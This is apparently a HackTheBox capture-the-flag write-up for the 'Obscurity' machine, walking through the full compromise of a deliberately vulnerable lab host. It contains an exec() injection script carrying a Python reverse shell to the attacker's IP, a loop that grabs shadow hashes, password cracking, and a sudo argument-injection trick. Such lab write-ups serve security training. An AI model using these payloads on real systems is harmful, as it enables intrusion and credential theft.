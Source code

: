 ```yaml
---
title: "HackTheBox: Obscurity"
date: "2020-05-09"
author: frosty
categories:
  - "writeups"
tags:
  - "hackthebox"
---
```


![Image](assets/img/writeups/hackthebox/obscurity/htb-obscurity.png)

* * *

## Host Enumeration

As usual, we begin with an nmap scan to identify listening services.

- 22: OpenSSH 7.6p1
- 80: Closed HTTP
- 8080: BadHTTPServer

![Image](assets/img/writeups/hackthebox/obscurity/image-10.png)

## Host enumeration - 8080

Interestingly, the version of this service is BadHTTPServer... I am unfamiliar with this service. Due to the nature of HTTP, we navigate to it using the browser and we see a note; their motto is _security through obscurity!_ Interesting for sure. In my secure software development class at university, we were taught that security by obscurity offers no security, and it's only a matter of time until an attacker finds out.

When scrolling down a little, there is a second note from the developers. The web server code is in the **SuperSecureServer.py** file, in the secret development directory. This is where security by obscurity comes into action. The secret development directory is only supposed to be known to those authorized, however we are hackers and can use enumeration tools ;)

![Image](assets/img/writeups/hackthebox/obscurity/image-11-1024x187.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-12.png)

Lets use wfuzz to try and find the directory which SuperSecureServer.py is hidden in. The command can be seen below. The `FUZZ` is the placeholder/ field that is fuzzed by the wordlist. We place `/SuperSecureServer.py` afterwards so that when the correct directory is placed in the field, then we should get a HTTP 200 OK response.

```sh
$ wfuzz -w '/usr/share/wordlists/dirb/common.txt' \
-u 'http://10.10.10.168:8080/FUZZ/SuperSecureServer.py' \
--hc 404,500 -c
```

![Image](assets/img/writeups/hackthebox/obscurity/image-13.png)

Bingo! The secret directory is `develop`. Not so secret after all. Alright, now we have access to the software running the web server. Thankfully Python is an interpreted code language, and does not always get compiled. Hence, we are able to read the source code without any binary reversing.

* * *

## Getting the initial shell

We have to do a code review, perhaps there is some insecure software development which we can exploit. It seems that the web server serves documents which the user controls and is executed using the unsafe `exec()` function.

![Image](assets/img/writeups/hackthebox/obscurity/image-15.png)

Alright, it's time to buckle up and see if we can get RCE by escaping the `exec()`. This is the idea:

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = 'foo'
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

So we just need to change the `path` to get RCE.

```py
# the desired output
# ' import os;os.system("ping -c 2 10.10.15.95") a='
# together:
path = '\'' + '\nimport os;os.system("ping -c 2 10.10.15.95")\na=\''
```

![Image](assets/img/writeups/hackthebox/obscurity/image-17.png)

So all we need to do to get the reverse shell is to place some Python reverse shellcode (Credit to) [pentest monkey reverse shell cheat sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

```py
#!/usr/bin/env python3
import requests
import urllib

url = 'http://10.10.10.168:8080/'
path = '\'' + '\nimport socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.95",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])\na=\''

print("[+] Sending payload. \n[+] Check netcat listener")
payload = urllib.parse.quote(path)
resp = requests.get(url+payload)
```

![Image](assets/img/writeups/hackthebox/obscurity/image-18.png)

* * *

## Pivot from www-data to Robert

The www-data is able to read the files (but not user.txt!) in the `Robert` home directory. There are some interesting files. I guess we will have to do our second code review, this time against SuperSecureCrypt.py

- check.txt
- out.txt
- passwordreminder.txt
- SuperSecureCrypt.py

![Image](assets/img/writeups/hackthebox/obscurity/image-19.png)

> Don't roll your own crypto
>
> Lecturer at Napier University

![Image](assets/img/writeups/hackthebox/obscurity/image-21.png)

OK so, we see that the encrypt function looks like a ROT13 cipher, but rotation by 255 rather than 13, using a key that is the length of the cipher text. Welcome to a crypto CTF challenge!

Pretty much, what we have to do is use the out.txt as an input file, use the contents of check.txt as the key, and use the `-d` flag to decrypt out.txt. This will give is the encryption key:

```sh
$ python3 SuperSecureCrypt.py \
-i out.txt
-k 'Encrypting this file with your key should result in out.txt, make sure your key is correct!' \
-o passwd-dec.txt \
-d \
&& cat passwd-dec.txt
alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich
```

So, now we can use the key to decrypt the password.

```sh
$ python3 SuperSecureCrypt.py \
-i passwordreminder.txt
-k 'alexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovichalexandrovich'
-o passwordreminder-out.txt
-d \
&& cat passwordreminder-out.txt
SecThruObsFTW
```

![Image](assets/img/writeups/hackthebox/obscurity/image-22.png)

Now we are able to log in to the SSH service with `robert:SecThruObsFTW` credentials.

* * *

## Escalating to Root

When executing `sudo -l` we are able to see whether Robert can execute any scripts as root.

![Image](assets/img/writeups/hackthebox/obscurity/image-24-1024x121.png)

Robert can execute BetterSSH.py as root. There is a bit of a theme developing; it seems that we have to code review again now. We see a big no-no. Instead of using the native SSH binary, the creators created their own - which is supposed to be better. However, there is a gaping mistake in it. It writes the hashes of the **shadow** file to /tmp/SSH/ for 0.1 seconds. Sounds secure, but we can exploit this. We must execute the script as root because otherwise it is not possible to read the shadow hashes.

![Image](assets/img/writeups/hackthebox/obscurity/image-25.png)

There are actually two methods here. The second method I didn't know until I discussed it with another player.

### Method 1 to get root

As the root hash is only placed in the /tmp/SSH directory for 0.1 seconds, we need to create a loop that will cat all files.

```sh
while true; do cat /tmp/SSH/* ; done
```

In a second terminal, we must execute BetterSSH.py as root (using Robert the user) and login with our credentials. Then the root hash will be printed in the first terminal. We can use John to crack the password.

```sh
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
mercedes
```

![Image](assets/img/writeups/hackthebox/obscurity/image-26.png)

![Image](assets/img/writeups/hackthebox/obscurity/image-27.png)

We can use the password to switch to the root user in the robert SSH session. While the password could have been brute forced straight away, we cannot login to root through SSH externally, so that would have failed.

![Image](assets/img/writeups/hackthebox/obscurity/image-28.png)

## Method 2 to get root

So, when we run binaries as sudo we can also execute commands as another user, e.g.
`sudo -u foo script.sh` to run script.sh as foo user. We can do:
`-u root cat /root/root.txt` in the BetterSSH shell to get the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-29.png)

We must do a code review to understand _why_ this really works. The screenshot below shows the code that is executed when a user types a command. The key line is highlighted in the orange box.

The BetterSSH is running under root context. To enable user permissions, `sudo -u <username>` is used to execute commands as the authenticated user. However, when we use the command `-u root $command` then we place it in `sudo -u robert -u root $command`. The sudo binary takes the root user, and executes `cat /root/root.txt` to give us the root flag.

![Image](assets/img/writeups/hackthebox/obscurity/image-31.png)
